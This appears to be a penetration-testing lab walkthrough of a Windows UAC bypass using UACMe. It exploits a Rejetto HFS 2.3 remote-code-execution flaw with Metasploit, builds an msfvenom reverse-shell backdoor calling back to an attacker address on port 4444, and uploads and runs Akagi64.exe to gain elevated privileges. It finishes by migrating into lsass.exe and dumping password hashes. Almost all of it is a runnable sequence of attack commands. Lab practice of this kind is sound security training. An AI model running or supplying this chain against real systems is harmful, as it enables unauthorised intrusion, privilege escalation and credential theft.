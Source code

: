 # UAC Bypass: UACMe

Advance Privilege Escalation: Windows: UAC Bypass

nmap

```bash
nmap -sV -p 80 10.0.27.103
```

We will search the exploit module for hfs file server using searchsploit.

```bash
searchsploit hfs
```

Rejetto HTTP File Server (HFS) 2.3 is vulnerable to RCE. Exploiting the target server using the Metasploit framework.

```bash
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.0.27.103
exploit
```

Checking the current user.

```bash
getuid
sysinfo
```

We can observe that we are running as an admin user. Migrate the process in explorer.exe. First, search for the PID of explorer.exe and use the migrate command to migrate the current process to the explorer process.

```bash
ps -S explorer.exe
migrate 2444
#Elevate to the high privilege
getsystem
```

Get a windows shell and check if the admin user is a member of the Administrators group.

```bash
shell
net localgroup administrators
```

Generating malicious executable using msfvenom and running it on the target machine to gain administrator user privileges.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
file "backdoor.exe"
```

Switch the directory to the user’s temp folder and upload the Akagi64.exe and backdoor.exe executable.

```bash
exit
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .
ls
```

Start another msfconsole and run a multi handler.

```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.1.3
set LPORT 4444
exploit
```

Switch back to the meterpreter and run the Akagi64.exe executable.

```bash
shell
.\Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

Migrate in lsass.exe process

```bash
ps -S lsass.exe
migrate 680
```

Dump the hashes.

```bash
hashdump
```
